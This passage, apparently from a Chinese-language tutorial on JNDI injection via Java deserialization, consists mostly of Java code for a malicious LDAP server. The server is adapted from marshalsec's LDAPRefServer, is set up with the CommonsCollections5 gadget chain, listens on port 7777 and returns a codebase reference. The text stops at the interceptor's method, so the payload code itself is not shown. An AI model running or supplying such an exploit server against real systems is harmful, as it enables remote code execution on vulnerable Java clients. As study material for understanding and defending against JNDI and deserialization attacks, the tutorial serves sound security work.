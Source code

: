 通过反序列化，那么前提是客户端得有可用的Gadgets

服务端参考marshalsec.jndi.LDAPRefServer，简单修改一下即可，这里使用的Gadget是**CommonsCollections5**

```java
package JNDI;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URL;
import java.util.HashMap;
import java.util.Map;

public class ldap_server191 {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) throws Exception{
        String[] args=new String[]{"http://127.0.0.1/#test"};
        int port = 7777;

        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
        config.setListenerConfigs(new InMemoryListenerConfig(
                "listen", //$NON-NLS-1$
                InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                port,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

        config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
        InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
        System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
        ds.startListening();
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
```